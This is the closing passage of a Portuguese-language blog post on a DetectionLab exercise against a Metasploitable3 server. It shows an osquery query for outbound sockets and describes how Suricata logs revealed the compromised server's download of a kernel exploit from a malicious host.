> Pelo o que entendi, esses if's (`if($_=~ /(.*)/)`) são como uma proteção contra script kiddies, ou apenas para redução de possíveis danos maiores. Eles removem a possibilidade de uso de caracteres maliciosos (caracteres de escape e controle), pois com eles, o estrago pode ser muito maior pelo jeito. Mas atacantes sofisticados podem remover essas proteções. 
{: .prompt-info}

Essa parte achei bem interessante, da pra diferenciar o tipo de atacante só pelo payload!

### Detecting Kernel Exploit Download - Splunk

Agora que sabemos que o servidor foi ownado podemos ver se ele fez requisições para outros servidores.
```sql
SELECT * FROM process_open_sockets where remote_address =  '192.168.56.109';
```


Pelos logs do suricata, conseguimos pegar a requisição originada pelo servidor para o servidor malicioso, que foi usada para fazer o download do malware.  

Esse foi apenas um exemplo de várias das possibilidades com esse laboratório.

# Referencias

- https://detectionlab.network
- https://docs.nxlog.co/userguide/configure/index.html
- https://osquery.readthedocs.io/en/latest/
- https://github.com/rapid7/metasploitable3/

*[SO]:"Sistema Operacional"
*[dropo]: "Do ingles, drop, derrubar"